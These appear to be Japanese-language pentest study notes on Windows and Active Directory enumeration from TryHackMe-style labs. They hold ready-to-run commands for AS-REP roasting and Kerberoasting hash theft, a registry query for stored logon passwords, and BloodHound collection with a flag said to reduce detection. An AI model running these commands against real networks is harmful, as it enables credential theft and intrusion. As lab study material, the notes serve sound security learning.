 # 列挙（Windows）

## Kerberos

ユーザー名列挙

```shell
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@$TARGET
```

ユーザー名のリスト（ドメインは含まない）を作り、AS-REP Roasting 攻撃でハッシュを取得。  
※ Pre-authentication を無効にしているユーザーが存在する場合に限り、ハッシュを取得できる。

```shell
python3 /opt/impacket/examples/GetNPUsers.py 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip $TARGET
```

いずれか 1 つのアカウントを侵害できたらケルベロースティング。

```shell
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py 'domain/name:passwd' -outputfile keberoast.hash -dc-ip $TARGET
```

ハッシュの種類を特定。  
hashcat の番号も表示してくれるので、hashcat でパスワードをクラック。

```shell
name-that-hash -f hash.txt
```

## システム

```ps
systeminfo

# インストールされたアップデート
wmic qfe get Caption,Description

# 開始されたサービス
net start

# インストールされているアプリ
wmic product get name,version,vendor
```

## ユーザー

```ps
# 自分の権限
whoami /priv

# 属しているグループ
whoami /groups

# IL
whoami /groups | find "Label"

# 他のユーザーを表示
net user

# 使用可能なグループ
net localgroup

# ローカル管理者グループに属するユーザー
net localgroup administrators

# マシンのローカル設定
net accounts
# ドメインに属している場合
net accounts /domain
```

```sh
# パスワード
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## ネットワーク

```ps
ipconfig

netstat -abno

arp -a
```

## SMB

```ps
# 共有フォルダ
net share
```

## BloodHound

Windows

```sh
.\SharpHound.exe --CollectionMethods All --Domain tryhackme.loc --ExcludeDCs
```

--ExcludeDCs は DC を除外し、検出リスクを下げる。

Linux

```sh
bloodhound-python -u asrepuser1 -p qwerty123! -d tryhackme.loc -ns 10.211.12.10 -c All --zip
```

## ActiveDirectory モジュールによる列挙

ドメインコントローラには入っているが、その他はダウンロードが必要。

```ps
Import-Module ActiveDirectory

Get-ADUser -Filter *
Get-ADUser -Identity Administrator -Properties LastLogonDate,MemberOf,Title,Description,PwdLastSet

Get-ADGroup -Filter * | Select Name

Get-ADComputer -Filter *

Get-ADDefaultDomainPasswordPolicy
```

## PowerView による列挙

ダウンロードが必要

```ps
PowerSploit-master\Recon> Import-Module .\PowerView.ps1

Get-DomainUser

Get-DomainUser *admin*
Get-DomainGroup "*admin*"
Get-DomainComputer
```

